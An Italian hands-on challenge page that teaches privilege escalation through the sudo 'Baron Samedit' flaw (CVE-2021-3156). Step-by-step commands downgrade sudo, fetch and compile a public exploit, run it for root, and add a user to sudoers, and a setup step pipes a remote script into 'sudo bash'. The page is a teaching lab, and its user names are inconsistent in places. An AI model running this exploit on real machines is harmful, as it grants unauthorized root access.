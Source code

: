 ```yaml
---
title: "Challenge 4"
summary: Benvenuto nella quinta challenge, difficoltà 🤕🤕🤕🤕. In questa challenge prenderai i panni di un _hacker_.
date: 2021-03-27
tags: ["challenge-series","challenge-4"]
---
```


[cve-2021-3156]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3156
[qualys]: https://en.wikipedia.org/wiki/Qualys
[qualys-blog-post]: https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit?_ga=2.226100442.1385623629.1616771039-1815361758.1616771039
[challenge-4-setup]: ./assets/challenge-4-setup.sh

# Challenge 4 - Privilage escalation

Benvenuto nella quarta challenge, difficoltà 🤕🤕🤕🤕.
In questa challenge prenderai i panni di un _hacker_.

**Questa challenge e' a solo scopo educativo, pertanto l'autore della challenge non si assume nessuna responsabilità per l'uso che i partecipanti faranno di questa conoscenza.**

## In Questa Challenge

- Utilizzo di funzioni avanzate della shell.
- Compilare un programma da riga di comando.
- Exploitare la vulnerabilità di sudo.
- Effettuare una privilage escalation.
- Proteggersi dall'attacco.

## Introduzione

La vulnerabilità nota con il nome di _Baron Samedit_ documentata in [CVE-2021-3156][cve-2021-3156], e' una delle scoperte più scioccanti dell'ultimo decennio. _Sudo_ e' un programma preinstallato nella maggior parte dei sistemi operativi GNU/Linux, e' utilizzato per eseguire programmi da riga di comando con _permessi di root_ non essendo root. Purtroppo i programmi non sono perfetti e possono essere exploitati attraverso delle vulnerabilità. Queste vulnerabilità possono essere più o meno note al pubblico. Quando una vulnerabilità viene pubblicata gli sviluppatori si mobilitano per correggere il problema rilasciando una nuova versione.
La vulnerabilità _Baron Sameid_ e' stata presente per più di **10 anni** introdotta con un aggiornamento in _luglio 2011_, secondo il team di ricercatori della [Qualys][qualys] coloro che hanno trovato la vulnerabilità.

Exploitando la vulnerabilità permette di ottenere i _permessi di root_ completi anche non facendo parte del _gruppo sudo_. Questo avviene per un bug con il comando `sudoedit -s`. Per maggiori informazioni riguardo alla vulnerabilità visita il [blog post][qualys-blog-post] sul sito di Qualys.

## Proof Of Concept

Per testare questo exploit assicurati di essere in un ambiente sicuro. Guarda la [Challenge 1][challenge-1] per sapere come installare velocemente una macchina virtuale.

Prima di tutto bisogna installare una versione di _sudo_ che contenga il bug.
Fai il downgrade di _sudo_

``` shell
sudo apt install sudo=1.8.31-1ubuntu1
```

E' possibile che la macchina non abbia i programmi necessari per compilare il codice. Installali

``` shell
sudo apt install build-essential
```

Avendo già i _permessi di root_ come utente attuale non ha senso eseguire l'exploit ora. Crea un nuovo utente

``` shell
sudo adduser test-exploit
```

> Inserisci una password e premi `invio` al resto dei i prompt.

Accedi come l'utente `test-exploit`

``` shell
su test-exploit
```

Verifica che il nuovo utente non sia uno _sudoer_

``` shell
sudo -v
```

> L'output dovrebbe essere: _Sorry, user test-exploit may not run sudo on ubuntu-204_.

Verifica che non abbia privilegi di root

``` shell
touch /etc/test
```

> L'output dovrebbe essere: _touch: cannot touch '/etc/test': Permission denied_.

Su GitHub esistono diverse implementazioni dell'exploit. Guardare il codice sorgente di queste implementazioni e' un ottimo modo per imparare.
Scarica l'exploit

``` shell
git clone https://github.com/blasty/CVE-2021-3156 
```

Compila il programma

``` shell
cd CVE-2021-3156/
make
```

Esegui l'exploit

``` shell
./sudo-hax-me-a-sandwich 1
```

Verifica che tua abbia i _permessi di root_ creando un file in `/etc`

``` shell
touch /etc/test
ls -l /etc/t*
```

Aggiungi l'utente `test-exploit` tra i _sudoers_

``` shell
adduser text-exploit sudo
```

Da ora in poi l'utente `text-exploit` fa parte del gruppo `sudo` quindi potrà eseguire comandi con _permessi di root_.

Per provare che le modifiche siano avvenute veramente e che non e' stato un trucco, riavvia la macchina, accedi come utente `text-exploit` ed inizia ad usare i nuovi super poteri.

## Riassunto

- Cos'è la vulnerabilità _Baron Samedit_.
- Come fare il downgrade di un pacchetto.
- Come creare un nuovo utente.
- Come compilare un programma.
- Come ottenere i _permessi di root_ attraverso un exploit.
- Come aggiungere un'utente al gruppo _sudo_.

## Challenge

Dato l'accesso ad una macchina come utente `challenge-4` con  solo due permessi, l'esecuzione del comando `exit` e dell'editor `vi`. Attraverso una _privilage escalation_ crea il file `/etc/hacked.txt` con all'interno il testo `Sei stato hackerato`.

Prima di iniziare la challenge prepara la macchina. Crea un nuovo utente  `challenge-4` ed esegui [questo script][challenge-4-setup] con _permessi di root_. Lo script configura adeguatamente l'utente `challenge-4` per la challenge e prende in input due argomenti,l'utente e l'hostname.

``` shell
sudo adduser challenge-4
curl https://gitlab.com/pdpfsug/mkspace/challenges/-/raw/master/challenge-4/assets/challenge-4-setup.sh | sudo bash -s challenge-4 challenge-ubuntu
su -l challenge-4
```

- `curl https://gitlab.com/pdpfsug...` serve a scaricare lo script.
- `sudo bash -s challenge-4 challenge-ubuntu` serve ad eseguire lo script.
  - `challenge-4` e' l'utente che hai creato.
  - `challenge-ubuntu` e' il hostname della tua macchina. Per visualizzare l'hostname della tua macchina usa il comando `hostname`. 

> Buona fortuna.
